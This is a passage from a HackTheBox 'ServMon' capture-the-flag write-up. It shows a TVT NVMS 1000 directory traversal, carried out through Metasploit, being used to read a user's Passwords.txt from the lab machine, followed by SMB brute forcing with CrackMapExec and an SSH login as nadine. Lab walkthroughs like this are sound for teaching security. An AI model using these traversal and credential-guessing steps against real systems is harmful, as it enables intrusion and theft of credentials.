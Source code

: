 ```
TVT NVMS 1000 - Directory Traversal                                                                         | hardware/webapps/48311.py
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I couldn't get any to work tho, because the python library `requests` removes
the dots from the url, but luckily there's an exploit in metasploit. Let's use
it:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/servmon/exploit.png)

Let's read the file that metasploit downloaded:
```
$ cat ~/.msf4/loot/20200620132830_default_10.10.10.184_nvms.traversal_215539.txt
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

It works! Now we can use it do download the file contaning the passwords in
Nathan's home.
Let's change the option to `set FILEPATH /Users/Nathan/Desktop/Passwords.txt`,
and let's read the file:
```
$ cat ~/.msf4/loot/20200620133131_default_10.10.10.184_nvms.traversal_704303.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

## Getting a shell
Using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) we can try to
bruteforce smb:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/servmon/cme.png)

Trying to login in with `smbclient` doesn't give us acces to anything, but
remember the ssh server? Let's try the password against it!
```
$ ssh nadine@10.10.10.184
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ECDSA key fingerprint is SHA256:l00hI7FlitUwW9ndgFDHLzImSDNxQcjLOKxQPRmbzls.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ECDSA) to the list of known hosts.
nadine@10.10.10.184's password:
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
